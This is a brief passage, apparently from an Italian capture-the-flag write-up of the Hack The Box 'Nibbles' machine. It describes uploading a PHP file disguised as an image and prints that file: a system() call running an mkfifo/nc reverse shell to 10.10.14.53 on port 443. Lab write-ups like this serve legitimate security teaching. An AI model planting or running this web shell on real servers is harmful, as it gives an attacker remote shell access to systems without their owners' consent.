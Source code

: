 ![](../zzz_rev/attachments/nibble4.png)

Seguiamo le istruzioni e ci rechiamo alla sezione my image, carichiamo una revshell.php che salviamo come image.php

```bash
┌──(root㉿kali)-[/home/kali/htb/nibbles]
└─# cat image.php                                                                 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 443 >/tmp/f"); ?>
```
